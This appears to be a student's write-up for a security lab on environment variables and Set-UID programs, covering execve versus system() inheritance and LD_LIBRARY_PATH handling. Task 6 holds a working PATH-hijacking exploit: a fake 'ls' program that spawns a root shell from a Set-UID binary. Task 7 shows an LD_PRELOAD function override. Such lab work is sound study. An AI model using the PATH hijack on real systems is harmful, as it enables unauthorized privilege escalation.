







# CIS 751 Lab Assignment 1

## Task 1
We can view, set, and unset shell variables as shown in Figure 1. In addition to the `printenv` command, we can also use `grep` as follows:
```sh
env | grep "LOGNAME"
```



## Task 2

## Task 3
Initially, the program called `execve()` in the following way:
```c
execve("/usr/bin/env", argv, NULL);
```

The `execve` function receives it's environment variables from the caller. As described in the documentation, the signature for `execve` is:
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

Where `envp` are environment variables passed by the caller to the new process.

The initial program called
```c
execve("/usr/bin/env", argv, NULL);
```

Which passes `NULL` for the environment variables. As seen in Figure 2, this results in nothing being printed when `/usr/bin/env` is called.

The updated program called
```c
execve("/usr/bin/env", argv, environ);
```

Which passes the environment variables in `environ` (the parent's environment variables) to the new process. We observe that the parent process's environment variables are correctly passed to the child and thus printed when `/usr/bin/env` is called.




## Task 4
Unlike `execve()`, `system()` inherits it's environment variables from it's parent. When `system()` spawns a new shell to execute the `env` command, we expect `env` to run in an environment that contains all of the parent process's environment variables. As expected, these are printed when the following line is executed:
```c
system("/usr/bin/env");
```



## Task 5
To set this up, the following shell variables were created (or modified):
```sh
export PATH = my_path:$PATH
export MY_VAR=foo
export LD_LIBRARY_PATH=my_linker_path
```
The program was then run and output was put in `task5_output`. The resulting file was then searched using 
```sh
grep <VARIABLE> task5_output
```
Figure 5 shows the output of this. As is evident, the `MY_VAR` and `PATH` variables were inherited by the child process, and are thus present in the output file. However, the `LD_LIBRARY_PATH` variable is not present. This is a security feature where certain environment variables are not passed to the child if it is created in a Set UID context.



We can test this by removing the Set UID bit and re-running the experiment. As is shown in Figure 6, the `LD_LIBRARY_PATH` variable is inherited by the child.



## Task 6
In this exercise, we will exploit the program calling `ls` and use it to generate a root shell. As described in the lab, we first need to setup the following symbolic link:
```sh
$ sudo rm /bin/sh
$ sudo ln -s /bin/zsh /bin/sh
```

The `PATH` variable is updated to contain the current directory and exported as follows:
```sh
export PATH=/home/seed:$PATH
```

We then compile the following program with the name `ls` in the "/home/seed" directory.
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("I am a malicious version of ls!!!!\n");
    printf("I will now spawn a root shell!\n");
    system("/bin/sh");
    return 0;
}
```

*Note that the task6 program was given the owner root and the set UID bit.*

As is shown in Figure 7, we get a root shell when the task6 program is run. This occurs because the system will search the directories described in `PATH` to find the `ls` command when run. Since our directory preceeds everything else, it will find a match to our version of `ls` and execute that, spawning a shell in a Set UID context.



## Task 7
In task 7, we create a malicious library containing a `sleep` function and attempt to get our program to execute the malicious function. We do this by compiling our program (shown below) as a library and adding it to `LD_PRELOAD`, so when the dynamic linker searches for `sleep`, it finds our function first.
```c
// Malicious sleep program
#include <stdio.h>
void sleep(int s)
{
    printf("I am not sleeping!\n");
}
```

We first do this in a non-privileged environment (the task7 program is owned by seed and is not Set UID). As can be seen in Figure 8, when task7 is executed we see the string `"I am not sleeping"` printed, as the malicious function was executed. However, when task7 is owned by root and is a Set UID program (escalated privileges), we do not see this string printed and the program simply slept for a second before exiting. This is because the `LD_PRELOAD` environment variable is not passed to the new shell in a Set UID context. This is a security feature to prevent exactly this.

